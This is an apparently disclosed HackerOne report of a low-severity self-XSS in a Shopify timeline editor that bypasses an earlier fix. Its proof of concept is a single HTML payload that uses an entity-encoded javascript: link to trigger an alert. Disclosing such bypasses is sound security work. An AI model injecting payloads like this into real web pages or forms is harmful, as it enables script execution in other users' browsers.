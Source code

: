 # Timeline Editor Self-XSS (Previous Fix #738072 Incomplete)

## Report Details
- **Report ID**: 755679
- **URL**: https://hackerone.com/reports/755679
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-12-11T03:05:20.060Z
- **Disclosed**: 2020-03-16T08:32:02.979Z

## Reporter
- **Username**: mosuan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
1.Consistent steps
2.poc: `<img src=1111111><img src=1111111><a href="javascript:alert&#40/1/&#41">axxx</a><svg></svg><img src=1>`
3. {F656339}

## Impact

admin

## Attachments
- 2222222.png
